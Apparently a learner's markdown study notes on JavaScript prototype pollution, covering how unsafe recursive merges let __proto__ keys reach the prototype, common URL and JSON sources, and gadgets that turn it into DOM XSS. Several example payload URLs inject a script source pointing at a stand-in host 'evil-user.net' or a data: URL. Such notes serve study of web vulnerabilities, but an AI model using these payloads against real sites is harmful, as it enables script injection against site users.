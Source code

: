## What is it
Javascript vulnerability that enables an attacker to add arbitrary object prototypes.
By itself it may not be exploitable, however when the application unsafely handles user defined prototypes, this can be chained with othere vulnerabilities like DOM XSS
## How do the vulnerabilities arise
Arises when a javascript function recursively merges an object containing user-controllable properties into an existing object, without sanitizing keys. 
This would allow an attacker to inject a property with a key like \_\_proto\_\_ along with arbitrary nested properties. 
Since proto has a special meaning, the merge may assign the new properties to the prototype rather than the object itself.

## Common sources
Url - `https://vulnerable-website.com/?__proto__[evilProperty]=payload`
 although you may think it will look like this
 `{ existingProperty1: 'foo', existingProperty2: 'bar', __proto__: { evilProperty: 'payload' } }`
 due to merging, it would do this instead
 `targetObject.__proto__.evilProperty = 'payload';`
JSON based input -`{ "__proto__": { "evilProperty": "payload" } }`
`const objectLiteral = {__proto__: {evilProperty: 'payload'}}; 
`const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}'); 
`objectLiteral.hasOwnProperty('__proto__');// false
`objectFromJson.hasOwnProperty('__proto__'); // true` If the object is run through JSON.parse without sanitizing keys, the vulnerability is present.

web messages - - Web messages


## Prototype Pollution gadgets
A gadget provides a means of turniong the vulnerability into an actual exploit. 
Find a property that is used by the app in an unsafe way, such as passing it into a sink unsafely, or attacker-controllable. meaning the object must be able to inherit a malicious version of the property added to the prototype by an attacker.

Basically here is a config object that contains a property that is set to default. 
`let transport_url = config.transport_url || defaults.transport_url;`
if this is used to say add a script to the page
``let script = document.createElement('script');
`script.src = `${transport_url}/example.js`;
`document.body.appendChild(script);``
if these remain default, there is the potential for a gadget. Assuming the global Object prototype contains the user defined transport_url property, this will be inherrited by the config object, and then set as the source. 
Lets say we can pollute based on url
`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`
or
`https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//`
try both with and without the //

